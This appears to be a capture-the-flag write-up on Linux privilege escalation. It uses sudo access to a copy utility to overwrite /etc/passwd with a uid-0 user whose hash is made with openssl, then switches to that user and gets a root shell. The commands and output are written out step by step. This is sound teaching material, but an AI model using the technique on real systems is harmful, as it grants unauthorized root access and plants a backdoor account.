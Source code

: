 ```console
/usr/libexec/sssd/proxy_child
/usr/libexec/qemu-bridge-helper
/usr/libexec/spice-gtk-x86_64/spice-client-glib-usb-acl-helper
/usr/libexec/abrt-action-install-debuginfo-to-abrt-cache
```

According the above, we can use `cp` command as sudo. In order to exploit this misconfiguration we'll:
1. Copy /etc/passwd to a location we can edit it
2. Add a sudo user
3. Copy the back and overwrite the old one
4. Switch user to our new (root!) user
5. Find the root flag

Add a new user by concatinating new record to the `/etc/passwd` file
[READING Materials](https://www.cyberciti.biz/faq/understanding-etcshadow-file/)
First we need to choose a password, salt it and hash the result. openssl to the rescue.
Flags:
* `-1` what hashing algorithm to use. In our use case it doesnt matter, therefore we use MD5 which should be avoided in real world PT as it is not secure.
* `-salt salt` string to use as salt. I choose the string salt
* `password` clear text password we would like to use. 

```console
$ openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```

We need to put the above string in a file. For that we need to find a directory we can write to. Easiest option is `/tmp`. I'll call my file `my_user`
Before writing the above hashed password we need to add some data in order for it to be aligned with the `/etc/passwd` format.
This is the final result:
```console
$ cat /tmp/my_user
`hful:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash`
```

I named the user `hful`.
Now we can execute the test script as sudo
`sudo ./test /tmp/my_user /etc/passwd`

Verify our new user was added
```console
$ cat /etc/passwd
...
hful:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```

Copy the file back to the original location and overwrite the old one. Now switch to the new user and verify we're root.

```console
$ su hful
Password: 

$id
uid=0(root) gid=0(root) groups=0(root)
```
